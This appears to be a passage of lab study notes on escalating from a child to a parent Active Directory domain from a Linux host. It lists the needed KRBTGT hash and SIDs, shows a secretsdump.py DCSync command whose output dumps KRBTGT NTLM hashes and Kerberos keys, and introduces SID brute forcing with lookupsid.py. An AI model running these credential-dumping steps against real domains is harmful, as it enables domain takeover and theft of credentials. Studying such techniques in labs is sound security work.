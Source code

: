 ```powershell
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0
```
# Attacking Domain Trusts - Child -> Parent Trusts - from Linux
#### We can also perform the attack shown in the previous section from a Linux attack host. To do so, we'll still need to gather the same bits of information:
- ###### The KRBTGT hash for the child domain
- ###### The SID for the child domain
- ###### The name of a target user in the child domain (does not need to exist!)
- ###### The FQDN of the child domain
- ###### The SID of the Enterprise Admins group of the root domain
###### Once we have complete control of the child domain, LOGISTICS.INLANEFREIGHT.LOCAL, we can use secretsdump.py to DCSync and grab the NTLM hash for the KRBTGT account.
## Performing DCSync with secretsdump.py

```bash
Yashfren@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
[*] Cleaning up...
```
###### Next, we can use lookupsid.py from the Impacket toolkit to perform SID brute forcing to find the SID of the child domain. In this command, whatever we specify for the IP address (the IP of the domain controller in the child domain) will become the target domain for a SID lookup. The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format DOMAIN_SID-RID. For example, from the output below, we can see that the SID of the lab_adm user would be S-1-5-21-2806153819-209893948-922872689-1001.
## Performing SID Brute Forcing using lookupsid.py
